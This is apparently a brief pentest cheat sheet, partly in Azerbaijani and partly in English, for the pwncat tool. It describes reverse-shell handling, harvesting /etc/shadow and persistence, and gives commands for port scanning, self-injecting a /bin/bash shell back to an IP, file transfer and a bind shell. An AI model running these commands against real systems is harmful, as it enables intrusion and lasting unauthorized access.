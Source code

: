 # PwnCat

`pwncat` – interaktiv bir shell-ə qoşulmaq və bu shell-i inkişaf etmiş funksiya ilə təmin etmək üçün istifadə olunur. netcat-in (nc) inkişaf etmiş alternativi kimi düşünə bilərsən, amma ondan daha çox imkanlara malikdir.

### 🎯 Əsas məqsədləri və istifadə sahələri:  
- ✅ Reverse shell meneceri – TCP/UDP bağlantıları ilə gələn shell-ləri qəbul edir və interaktiv idarə edir.  
- ✅ Post-exploitation funksiyalar:  
  - Parolları tapmaq və saxlamaq (məs. /etc/shadow)  
  - Cron işlərini tapmaq  
  - SUID/SGID faylları analiz etmək  
  - Yetkilər və imkanlar haqqında məlumat toplamaq (privilege escalation üçün)  
- ✅ Persistence (davamlılıq) təmin etmək – sistemdə qaldığını təmin etmək üçün avtomatik yollar təklif edir (startup script, cron job və s.).
- ✅ Fayl transferi – sadə komanda ilə fayl yükləmək və endirmək mümkündür.
- ✅ Canlı sistem məlumatı – sistem haqqında detallı məlumat verir: istifadəçilər, portlar, proseslər və s.
- ✅ History və logging – bütün əməliyyatlar qeyd olunur.



### Port scanning and Banner grabbing
`pwncat -z 192.168.1.23 1-100`  
`pwncat -z 192.168.1.23 1-100 --banner`

PS: Pwncat not only performs port scanning on TCP ports it can also scan UDP ports just by using a -u flag in the above command.

### As a Listener

`pwncat -l 1234 --self-inject /bin/bash:192.168.1.7:1234`

The persistence can be checked by running a rlwrap listener at the same port after terminating the above connection  
`rlwrap nc -lvnp 1234`

Pwncat has a feature to create persistence on multiple ports which can be performed using the following command:  
`pwncat -l 1234 --self-inject /bin/bash:192.168.1.7:1234+2`

### Local Port Forwarding
`pwncat -L 0.0.0.0:5000 127.0.0.1 8080`

### Send and Receive Files
`pwncat -l 6666 > data.txt`  
`pwncat 192.168.1.7 6666 < data.txt`

### Bind Shell (Linux)
`pwncat 192.168.1.23 9874`  
`pwncat -l -e '/bin/bash ' 9874 -k`


